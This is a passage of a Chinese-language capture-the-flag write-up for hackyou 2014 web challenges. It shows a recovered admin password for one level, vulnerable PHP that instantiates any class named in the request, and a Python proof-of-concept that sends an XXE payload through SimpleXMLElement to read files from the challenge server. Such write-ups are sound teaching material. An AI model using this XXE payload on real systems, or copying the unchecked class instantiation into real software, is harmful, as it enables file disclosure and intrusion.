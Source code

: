 ```
```

最后可以看到数据为：

```
admin
9shS3FAk 
```

到登陆页面登陆即可过关。

## 第四关

* * *

这关提供源码下载了，[`hackyou.ctf.su/files/web400.zip`](http://hackyou.ctf.su/files/web400.zip)

```
<?php
include 'config.php';
include 'classes.php';
$action = (isset($_REQUEST['action'])) ? $_REQUEST['action'] : 'View';
$param = (isset($_REQUEST['param'])) ? $_REQUEST['param'] : 'index';
$page = new $action($param);
echo $page;
?>

```

看这行

```
$page = new $action($param);

```

我们能实例化任意的类，并且传递$param 给构造函数，我们先拿 SimpleXMLElement 看看效果

[`cn2.php.net/manual/en/simplexmlelement.construct.php`](http://cn2.php.net/manual/en/simplexmlelement.construct.php)

POC 如下：

```
#!/usr/bin/env python
import requests
import sys
import base64

def hack(inject):
    vul={'param':'<!DOCTYPE foo [<!ENTITY xxe SYSTEM "' + inject + '" >]><foo>&xxe;</foo>'}
    req=requests.post('http://hackyou2014tasks.ctf.su:40080/index.php?action=SimpleXMLElement',data=vul)
    print base64.b64decode(req.content)

if __name__=="__main__":
    hack(sys.argv[1])

```
